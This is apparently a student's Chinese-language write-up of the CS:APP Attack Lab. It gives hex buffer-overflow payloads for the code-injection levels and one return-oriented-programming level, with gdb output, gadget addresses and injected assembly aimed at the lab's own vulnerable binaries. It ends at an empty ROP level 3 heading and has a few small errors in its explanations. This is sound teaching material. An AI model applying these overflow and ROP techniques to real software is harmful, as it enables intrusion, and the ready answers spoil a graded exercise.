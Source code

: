 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下(一行8位 每行放一次指令)
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数   
此时需要利用栈指针转跳 要利用栈指针 先找到栈指针位置  
```
Starting program: ctarget -q   
Cookie: 0x59b997fa   
Dump of assembler code for function getbuf:   
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp   
   0x00000000004017ac <+4>:	mov    %rsp,%rdi   
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>   
   0x00000000004017b4 <+12>:	mov    $0x1,%eax   
   0x00000000004017b9 <+17>:	add    $0x28,%rsp   
   0x00000000004017bd <+21>:	retq      
End of assembler dump.   
(gdb) p/x $rsp   
$1 = 0x5561dca0   
(gdb) p/x 0x5561dca0-0x28   
$2 = 0x5561dc78   
```
获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55   
运行得到的 Cookie: 0x59b997fa    
需要将cookie值(0x59b997fa)存入%rdi寄存器用于传参数给函数touch2    
再查看ctarget的汇编代码 得知touch2 的起始地址为 4017ec 即可开始写注入所需的函数   
File\:phase.s   
```assembly
pushq $0x4017ec
movq  $0x59b997fa,%rdi
retq

```
使用gcc -c选项编译该文件   
再利用objdump 反编译成机器码得到   
```
68 ec 17 40 00       	pushq  $0x4017ec   
48 c7 c7 fa 97 b9 59 	movq    $0x59b997fa,%rdi   
c3                   	retq      
```
则答案为  
```
68 ec 17 40 00 
48 c7 c7 fa 97 b9 59
c3  
00 00 00   
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00     
78 dc 61 55      
```


### ***CI level3***
和level2的思路一致 先获取touch3地址 0x4018fa  
level3需要将cookie转换成ascii字符串形式   
0x59b997fa 转化为字符串为 35 39 62 39 39 37 66 61   
同时 提示给出 touch3中会导致输入被覆盖    
因此 传递的参数不能直接储存至输入 于是在栈指针下方储存   
rsp + 0x8 = 0x5561dca8    
phase3.s:
```assembly
pushq $0x4018fa
movq  $0x5561dca8,%rdi
retq

```
反汇编得到   
```
fa 18 40 00       	   pushq  $0x4018fa
48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c3                   	retq   
```
答案   
```
68 fa 18 40 00
48 c7 c7 a8 dc 61 55 
c3 
00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 
35 39 62 39 39 37 66 61
```

### ***ROP level2***
和CI level2的要求一致 但是这题换了攻击方式 不能直接在输入区插入代码来达成目标 需要利用ret来转跳至已存在的代码来完成
lab给出了farm.c文件 其中的函数即是用于攻击的方式  write up中也有操作对应的编码表
提示给出利用函数start_farm 到函数mid_farm 即可完成 同时写到可以利用popq
汇编代码地址0x401994 ~ 0x4019d0 为可用函数

要求与CI leve2一致 即需要存储cookie至%rdi 并转跳至touch2
先理清思路 由于栈随机化 导致地址不能确定 需要利用popq将数据从栈弹出到寄存器中
即储存cookie至%rsp 随即弹出到寄存器 %rdi 再转跳函数touch2即可
汇编代码地址0x4019ca开始的操作 有所需操作编码 `58 90 c3`   
`58` 为操作 `popq %rax` `90`为操作`nop`
地址为0x4019cc
汇编代码地址0x4019c3开始的操作 有所需操作编码 `48 89 c7 90` 并紧跟 `c3`
`48 89 c7` 为操作movq %rax, %rdx         `c3` 为操作ret
地址为0x4019c5
编写答案
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### ***ROP level3***

